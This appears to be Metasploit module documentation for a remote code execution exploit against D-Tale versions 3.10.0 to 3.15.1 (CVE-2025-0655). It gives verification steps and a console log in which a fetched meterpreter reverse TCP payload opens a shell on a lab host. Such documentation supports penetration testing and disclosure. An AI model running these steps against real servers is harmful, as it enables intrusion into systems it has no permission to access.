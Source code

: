 ## Vulnerable Application

This exploit effectively serves as a bypass for CVE-2024-3408.
An attacker can override global state to enable custom filters, which then facilitates remote code execution.
Specifically, this vulnerability leverages the ability to manipulate global application settings
to activate the enable_custom_filters feature, typically restricted to trusted environments.
Once enabled, the /test-filter endpoint of the Custom Filters functionality can be exploited to execute arbitrary system commands.

The vulnerability affects:

    * 3.10.0 <= D-Tale <= 3.15.1

This module was successfully tested on:

    * D-Tale 3.15.1 installed on Ubuntu 24.04
    * D-Tale 3.12.0 installed on Ubuntu 22.04
    * D-Tale 3.10.0 installed on Ubuntu 22.04


### Installation

1. `pip install 'dtale==3.15.1'`

2. `dtale --host 0.0.0.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/dtale_rce_cve_2025_0655`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/dtale_rce_cve_2025_0655
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/dtale_rce_cve_2025_0655) > options

Module options (exploit/linux/http/dtale_rce_cve_2025_0655):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    40000            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS  true             yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST                            yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      vxItPQvVMkW      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/dtale_rce_cve_2025_0655) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.15.1 detected.
[*] Use data_id: 1
[*] Updated the enable_custom_filters to true.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:34796) at 2025-03-01 11:37:14 +0900
[*] Successfully executed the payload.
[*] Successfully cleaned up data_id: 1

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-52-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
